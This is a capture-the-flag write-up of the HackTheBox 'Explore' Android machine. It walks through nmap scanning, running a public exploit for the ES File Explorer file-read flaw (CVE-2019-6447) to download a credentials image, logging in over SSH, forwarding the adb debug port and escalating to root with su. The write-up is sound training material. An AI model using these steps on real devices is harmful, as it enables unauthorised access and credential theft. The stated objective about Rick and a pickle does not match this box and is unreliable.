 ```yaml
---
title: "HackTheBox: Explore"
date: 2025-03-12 00:00:00 +/-TTTT
categories: [Writeups, HackTheBox, easy]
tags: [htb, easy]     # TAG names should always be lowercase
---
```


>**Title**: Explore
>
>**Platform**: HackTheBox
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://labs.hackthebox.com/storage/avatars/2c3df5ec98bea78159400b5b4f6474ab.png" width="250" height="250" > <br>

[Challenge Link](https://www.hackthebox.com/machines/explore)

 > [!NOTE]
 This writeup does not divulge the flags. 

## Enumeration

We start off with our favorite tool….`nmap` to identify open ports and services.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ sudo nmap -sS 10.129.56.63 
[sudo] password for kali: 
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:43 EDT
Nmap scan report for 10.129.56.63
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
5555/tcp filtered freeciv

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
```

The scan reveals two open ports: `2222` and `5555`. Let’s perform a more detailed scan using `nmap` with service detection and default scripts.

```bash
──(kali㉿kali)-[~/HTB/Explore]
└─$ nmap -sT -sV -sC 10.129.56.63 -p-
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:50 EDT
Nmap scan report for 10.129.56.63
Host is up (0.035s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).'
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

The scan identifies an `SSH` service on port `2222`, `ES File Explorer` running on port `42135`, and `Bukkit JSONAPI` on port `59777`.

Simply searching for the `freeciv` service with the word exploit tacked on returns quite a few exploits, hmmm interesting…

## ES File Explorer Exploit

Going back to our `nmap` result, let’s search for ES File explorer exploit and we see the first hit is an arbitrary file read.

```
ES File Explorer 4.1.9.7.4 - Arbitrary File Read - https://www.exploit-db.com/exploits/50070
```


>!CAUTION: 💡 Always remember to read the exploit code before you use it! 


```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getDeviceInfo 10.129.56.63

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

We can use a lot of different functions to list files/pictures/videos etc. Going through that we list pictures and find an interesting JPEG.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py listPics 10.129.56.63 

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

Let’s use the `getFile` function to get the `creds` file and reveal the contents.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getFile 10.129.56.63 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

Et voila, we see a set of credentials we can use for the SSH server. Sticky notes, am I right?

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1741792262251/caef0233-bc05-4b89-af50-74028437b391.png)

## SSH Access (User)

Directly ssh’ing into the box gave me an error saying “**No matching host key type found. Their offer: ssh-rsa**”. A quick search helped me fix that problem and we can connect.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 kristi@10.129.56.63
The authenticity of host '[10.129.56.63]:2222 ([10.129.56.63]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.56.63]:2222' (RSA) to the list of known hosts.
Password authentication
(kristi@10.129.56.63) Password: 
:/ $ whoami
u0_a76
```

Navigate to the `sdcard` directory to find `user.txt` or run the find command and grab that flag.

## Privilege Escalation

Let’s look at the open ports on the machine.

```jsx
:/ $ ss -ntlp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:40389                    *:*                  
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=16841,fd=74),("sh",pid=15893,fd=74),("droid.sshserver",pid=3766,fd=74))
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      10           *:42135                    *:*                  
LISTEN      0      50       [::ffff:10.129.56.63]:38909                    *:*
```

We identified at the start, the port `5555` is a debugging port (`adb`) and doesn’t allow external connections but now we have local access and we can use `ssh` port forwarding to access this port and service.

We reconnect using `ssh -L 5555:`[`localhost:5555`](http://localhost:5555)

From the attacker machine, let’s connect using `adb` and let’s drop into the `adb` shell

```bash
┌──(kali㉿kali)-[~]
└─$ adb -s localhost:5555 shell
x86_64:/ $ whoami                                                                      
shell
x86_64:/ $ su
:/ # whoami
root
```

```bash
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04fc<ROOTFLAGHERE>
```

Done!